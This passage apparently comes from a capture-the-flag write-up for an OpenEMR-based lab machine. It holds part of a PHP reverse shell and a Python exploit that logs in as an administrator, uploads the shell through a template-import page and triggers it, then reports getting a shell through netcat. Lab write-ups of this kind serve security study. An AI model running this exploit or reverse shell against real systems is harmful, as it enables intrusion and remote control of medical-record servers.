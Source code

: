 ```python
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> """}
print (auth)
url = "http://hms.htb/interface/main/main_screen.php?auth=login&site=default" # Modified the URL to the vulnerable page
data= {
    'new_login_session_management' : '1',
    'authProvider' : 'Default',
    'authUser' : 'openemr_admin', # changed this to the username I found in the database
    'clearPass' : 'xxxxxx',       # changed this to the appropriate password 
    'languageChoice' : '1',
    }
    
response = s.post(url, data=data,).text
time.sleep(2)
print (upload)
time.sleep(2)
resp = s.post("http://hms.htb/portal/import_template.php?site=default", data = payload)
time.sleep(2)
print (netcat)
rev_shell = s.get("http://hms.htb/portal/shell.php")
print (rev_shell.text)
```

I open a port with netcat with the appropriate port number, execute the python exploit and got a shell.
